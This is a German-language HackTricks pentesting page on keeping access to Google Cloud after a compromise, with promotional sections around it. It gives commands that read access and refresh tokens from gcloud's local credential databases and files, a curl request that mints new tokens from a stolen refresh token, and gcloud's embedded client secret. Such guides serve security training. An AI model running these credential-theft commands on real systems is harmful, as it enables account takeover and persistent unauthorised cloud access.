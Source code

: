 # GCP - Nicht-svc Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

Diese Techniken sind nützlich, sobald Sie auf irgendeine Weise einige GCP-Anmeldeinformationen oder eine in einer GCP-Umgebung ausgeführte Maschine kompromittiert haben.

## Token-Hijacking

### Authentifizierte Benutzertoken

Um das **aktuelle Token** eines Benutzers zu erhalten, können Sie Folgendes ausführen:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Überprüfen Sie auf dieser Seite, wie Sie **diesen Token direkt mit gcloud verwenden** können:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Um die Details zum **Generieren eines neuen Zugriffstokens** zu erhalten, führen Sie aus:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Es ist auch möglich, Auffrischungstoken in **`$HOME/.config/gcloud/application_default_credentials.json`** und in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** zu finden.

Um ein neues aktualisiertes Zugriffstoken mit dem **Auffrischungstoken**, der Client-ID und dem Client-Geheimnis zu erhalten, führen Sie aus: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die Gültigkeit der Aktualisierungstoken kann in **Admin** > **Sicherheit** > **Google Cloud-Sitzungssteuerung** verwaltet werden, und standardmäßig ist sie auf 16 Stunden eingestellt, obwohl sie auf "Nie ablaufen" gesetzt werden kann:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Authentifizierungsfluss

Der Authentifizierungsfluss bei der Verwendung von etwas wie `gcloud auth login` öffnet einen Dialog im Browser und nachdem alle Berechtigungen akzeptiert wurden, sendet der Browser eine Anfrage wie diese an den vom Tool geöffneten HTTP-Port:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dann wird gcloud den Zustand und den Code mit einer fest codierten `client_id` (`32555940559.apps.googleusercontent.com`) und **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) verwenden, um die **endgültigen Aktualisierungs-Token-Daten** zu erhalten.

{% hint style="danger" %}
Beachten Sie, dass die Kommunikation mit localhost über HTTP erfolgt, sodass es möglich ist, die Daten abzufangen, um ein Aktualisierungs-Token zu erhalten. Diese Daten sind jedoch nur einmal gültig, daher wäre dies nutzlos. Es ist einfacher, das Aktualisierungs-Token einfach aus der Datei zu lesen.
{% endhint %}

### Dienstkonten

Genau wie bei authentifizierten Benutzern, wenn es Ihnen gelingt, die **private Schlüsseldatei** eines Dienstkontos zu **kompromittieren**, werden Sie in der Regel **solange darauf zugreifen können, wie Sie möchten**.\
Wenn Sie jedoch das **OAuth-Token** eines Dienstkontos stehlen, kann dies noch interessanter sein, denn auch wenn diese Tokens standardmäßig nur eine Stunde lang gültig sind, bleibt das **OAuth-Token gültig, bis es abläuft, selbst wenn das Opfer den privaten API-Schlüssel löscht**.

### Metadaten

Offensichtlich können Sie solange Sie sich in einer Maschine innerhalb der GCP-Umgebung befinden, auf das Dienstkonto zugreifen, das mit dieser Maschine verbunden ist, indem Sie den Metadaten-Endpunkt kontaktieren (beachten Sie, dass die OAuth-Token, auf die Sie über diesen Endpunkt zugreifen können, normalerweise durch Berechtigungen eingeschränkt sind).

### Abhilfemaßnahmen

Einige Maßnahmen zur Behebung dieser Techniken werden unter [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) erläutert.

## Referenzen

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben** oder **HackTricks als PDF herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
